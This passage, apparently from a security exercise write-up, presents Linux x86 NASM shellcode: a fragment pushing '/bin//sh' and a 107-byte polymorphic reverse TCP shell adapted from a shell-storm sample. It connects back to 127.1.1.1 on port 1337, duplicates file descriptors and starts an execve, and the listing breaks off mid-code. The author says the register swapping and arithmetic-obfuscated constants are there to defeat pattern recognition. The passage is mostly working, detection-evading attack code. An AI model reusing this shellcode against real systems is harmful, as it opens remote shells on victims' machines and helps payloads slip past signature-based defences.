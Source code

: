 ```nasm
        push edx
        push 0x68732f2f       ; hs//
        push 0x6e69622f       ; nib/
        mov ebx,esp
        int 0x80
```

For this polymorphic exercise, we'll avoid pattern recognition by adding and swapping registers, obfuscating the values of key registers.  The morphed shellcode, at 107 bytes, is shown below:

```nasm
; reverse_shell.nasm
;  - Execute a reverse tcp shell
;
; [LINK] http://shell-storm.org/shellcode/files/shellcode-883.php

    global _start

section .text
_start:

        push 0x64               ; mov eax, 0x66
        pop eax
        push 0x2                ; mov ebx, 0x1
        pop ebx
        mov edi,ebx
        add eax,ebx
        xor edx,edx
        mov esi,eax
        dec ebx
        push edx                ; push 0x0
        push ebx                ; push 0x1
        push edi                ; push 0x2
        mov ecx,esp
        int 0x80

        xchg edx,eax
        mov eax, esi            ; mov eax, 0x66
        mov ecx, 0x4105fa92     ; push <127.1.1.1>
        sub ecx, 0x4004f913
        push ecx
        sub ecx, 0x100c87a      ; push <1337>
        push word cx
        mov bx, di              ; inc ebx
        push bx
        mov ecx,esp
        push 0x10
        push ecx
        push edx
        mov ecx,esp
        inc ebx
        int 0x80

        mov ecx,edi             ; mov ecx, 0x2
        xchg edx,ebx

loop:
        mov eax, esi            ; mov eax,0x3f
        sub eax, 0x27
        int 0x80
        dec ecx
        jns loop

        mov eax, esi            ; mov eax, 0xb
```